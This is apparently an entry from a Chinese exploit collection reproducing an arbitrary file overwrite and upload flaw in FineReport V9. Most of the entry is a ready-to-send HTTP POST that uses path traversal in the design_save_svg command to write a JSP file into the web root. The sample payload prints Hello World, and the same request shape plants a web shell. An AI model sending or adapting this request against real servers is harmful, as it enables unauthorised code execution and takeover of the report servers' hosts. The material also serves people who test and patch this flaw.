

帆软报表 V9 任意文件覆盖文件上传¶
漏洞描述¶
帆软 V9 存在任意文件覆盖，导致攻击者可以任意文件上传
漏洞影响¶
帆软 V9
漏洞复现¶

POST /WebReport/ReportServer?op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp HTTP/1.1
Host: 192.168.10.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=DE7874FC92F0852C84D38935247D947F; JSESSIONID=A240C26B17628D871BB74B7601482FDE
Connection: close
Content-Type:text/xml;charset=UTF-8
Content-Length: 74
{"__CONTENT__":"<%out.println(\"Hello World!\");%>","__CHARSET__":"UTF-8"}